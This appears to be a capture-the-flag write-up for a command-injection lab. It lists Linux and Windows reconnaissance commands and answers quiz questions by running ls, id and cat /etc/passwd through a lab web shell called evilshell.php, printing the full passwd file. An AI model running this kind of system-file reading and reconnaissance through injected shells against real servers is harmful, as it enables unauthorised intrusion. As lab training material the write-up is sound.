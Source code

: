 - whoami
- id
- ifconfig/ip addr
- uname -a
- ps -ef
  
>`Windows`

- whoami
- ver
- ipconfig
- tasklist
- netstat -an

*To complete the questions below, navigate to http://10.10.143.27/evilshell.php.*
 
>**What strange text file is in the website root directory?**

`ls`
>css `drpepper.txt` evilshell.php index.php js
- [x] answer
```
drpepper.txt
```
>**How many non-root/non-service/non-daemon users are there?**

`cat /etc/passwd`

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin

- [x] answer

```
0
```
>**What user is this app running as?**
    
`id`
>uid=33(www-data) gid=33(www-data) groups=33(www-data)
- [x] answer
```
www-data
```
